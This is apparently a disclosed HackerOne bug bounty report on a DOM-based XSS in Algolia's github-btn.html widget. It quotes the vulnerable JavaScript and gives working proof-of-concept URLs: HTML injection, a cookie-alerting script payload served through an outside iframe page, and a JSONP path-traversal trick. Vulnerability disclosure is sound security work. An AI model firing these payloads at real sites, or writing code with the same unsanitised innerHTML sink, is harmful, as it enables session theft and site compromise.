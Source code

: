 # [github.algolia.com] DOM Based XSS github-btn.html

## Report Details
- **Report ID**: 200826
- **URL**: https://hackerone.com/reports/200826
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-01-24T15:45:48.165Z
- **Disclosed**: 2017-03-31T19:42:12.862Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: algolia

## Vulnerability Information
Description
===

**Vulnerable parameter:** user
**Vulnerable script:** https://github.algolia.com/github-btn.html
**Vulnerable code:**
```js
        var params = function() {
                for (var t, e = [], o = window.location.href.slice(window.location.href.indexOf("?") + 1).split("&"), r = 0; r < o.length; r++) t = o[r].split("="), e.push(t[0]), e[t[0]] = t[1];
                return e
            }(),
            user = params.user,
            repo = params.repo,
            type = params.type,
 ...
  "follow" == type && (mainButton.className += " github-me", text.innerHTML = "Follow @" + user, button.href = "https://github.com/" + user
```

PoCs
===

**PoC #1**
HTML Injection for Chrome, Internet Explorer

```
https://github.algolia.com/github-btn.html?#&user=<h1><marquee>HTML<br>HTML<br>HTML<br>HTML<br>HTML<br>HTML<br>&type=follow
```

**PoC #2**
XSS for Internet Explorer (using X-UA-Compatible IE=9)

```
https://blackfan.ru/xss?c=%3Cmeta%20http-equiv=%22X-UA-Compatible%22%20content=%22IE=9%22%3E%3Ciframe%20src=%27https://github.algolia.com/github-btn.html?%23%26user=yrdy%3Cscript%3Ealert(document.domain);alert(document.cookie);//%26type=follow%27%3E%3C/iframe%3E
```


Another vulns
===

Also, this script has potential vulnerabilities using user controlled parameters in the path to the JS script.
But for the exploitation it requires additional vulnerability on api.github.com (for example, Open Redirect or user controlled output).

```js
function jsonp(t) {
  var e = document.createElement("script");
  e.src = t + "?callback=callback", head.insertBefore(e, head.firstChild)
}
...
jsonp("follow" == type ? "https://api.github.com/users/" + user : "https://api.github.com/repos/" + user + "/" + repo);
```

**PoC**

```
https://github.algolia.com/github-btn.html?#&user=../../another/endpoint&repo=../../another/endpoint&type=fork
```

**Result**
```
https://api.github.com/another/endpoint?callback=callback
```

## Attachments
- Screenshot_at_19-44-33.png
